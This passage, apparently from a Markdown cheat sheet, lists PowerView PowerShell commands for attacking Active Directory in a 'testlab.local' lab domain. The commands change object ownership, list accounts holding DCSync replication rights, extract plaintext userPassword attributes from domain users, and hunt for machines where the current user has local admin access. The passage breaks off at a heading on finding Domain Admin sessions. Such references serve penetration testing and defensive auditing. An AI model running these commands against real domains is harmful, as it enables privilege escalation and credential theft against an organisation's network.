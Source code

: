 ## Set the Owner of 'dfm' in the Current Domain to 'bufu'

```powershell
# PowerView
Set-DomainObjectOwner -Identity dfm -OwnerIdentity bufu
```

## Retrieve *most* Users Who Can Perform DC Replication for dev.testlab.local (i.e. DCsync)

```powershell
# PowerView
Get-ObjectACL "DC=testlab,DC=local" -ResolveGUIDs | ? {
    ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')
}
```

## Check if Any User Passwords Are Set

```powershell
# PowerView
$FormatEnumerationLimit=-1;Get-DomainUser -LDAPFilter '(userPassword=*)' -Properties samaccountname,memberof,userPassword | % {Add-Member -InputObject $_ NoteProperty 'Password' "$([System.Text.Encoding]::ASCII.GetString($_.userPassword))" -PassThru} | fl
```

## User Hunting with PowerView

### Find All Machines on the Current Domain where the Current User Has Local Admin Access

This function queries the DC of the current or provided Domain for a list of Computers (`Get-NetComputer`) and then use multi-threaded ``Invoke-CheckLocalAdminAccess`` on each machine.

Can also be done using WMI and PowerShell Remoting, see ``Find-WMILocalAdminAccess.ps1`` and ``Find-PSRemotingLocalAdminAccess.ps1``.

```powershell
Find-LocalAdminAccess -Verbose
```

### Find Local Admins on All Machines

Needs administrator privs on non-dc machines.

This function queries the DC of the current or provided Domain for a list of Computers (``Get-NetComputer``) and then use multi-threaded ``Get-NetLocalGroup`` on each machine.

```powershell
Invoke-EnumerateLocalAdmin -Verbose
```

### Find Computers where a Domain Admin (or Specified User/group) Has Sessions
